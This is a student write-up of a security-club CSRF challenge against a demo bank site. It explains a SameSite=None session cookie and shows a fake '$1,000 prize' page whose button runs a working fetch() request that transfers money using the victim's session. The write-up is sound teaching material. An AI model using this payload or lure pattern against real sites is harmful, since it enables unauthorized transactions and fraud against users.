 # RITSEC Week 9 CSRF Exploit

A writeup for the Hard challenge of Week 9 (Advanced Web) demo.

The challenge:

> For this challenge, I want you guys to go to https://dsb.victorzhou.com/login Perform a CSRF attack and send _[Tech lead]_ and/or _[Junior Tech lead]_ a writeup about what you did and what you learned.

## The Bank Web App

The login to our bank app at https://dsb.victorzhou.com/login.

![Bank Login](screenshots/bank-login.png)

This is our default bank UI.

![Bank UI](screenshots/bank-ui.png)

### Our test transfer

When we go to make a transfer, we use the UI like so:

![Transfer UI](screenshots/make-a-transfer.png)

And if we take a look in the dev tools, we can see the `POST` request that it sends:

![Transfer Post Request](screenshots/post-request.png)

![Transfer Post Request](screenshots/post-request-data.png)

### Session token

When we log into the site, it sets a session token in the cookies, but there's a big no-no... setting the `Same-Site` to `None` allows us to make requests with this cookie from other pages. This means we can bypass authentication by using our already logged in session.

![Bank Cookies](screenshots/cookies.png)

## The exploit

Here's our website for the exploit:

![Exploit Site](screenshots/scam-site.png)

We have flashing lights and everything!

> If you want to run the site yourself, ensure you have NodeJS installed and then run:

```
cd exploit
npm install
npm start
```

Wow! We won $1,000! However, the button actually has some JS linked to it:

```js
const params = new URLSearchParams("amount=1000&description=xXx_GetHaxed_xXx&to=Haxors");

function claim() {
  fetch("https://dsb.victorzhou.com/transfer", {
    method: "post",
    body: params,
    credentials: "include", // sends the session cookie with our request to bypass authentication
    mode: "no-cors",
  });
}
```

This request actually works, as we can see:

![Exploit POST Request](screenshots/exploit-post-request.png)

![Exploit POST Request](screenshots/exploit-post-request-data.png)

And if we go back to our bank, **_we have been hacked!!!!_**

![We've Been Hacked!](screenshots/bank-ui-post-hack.png)

## Notes

> I use Brave browser, and it blocks third-party cookies by default to avoid ad tracking info. However, this breaks our exploit, so we need to go allow `localhost` so use third-party cookies so it can send the `session` cookie.

![Allow Third-Party Cookies](screenshots/allow-third-party-cookies.png)
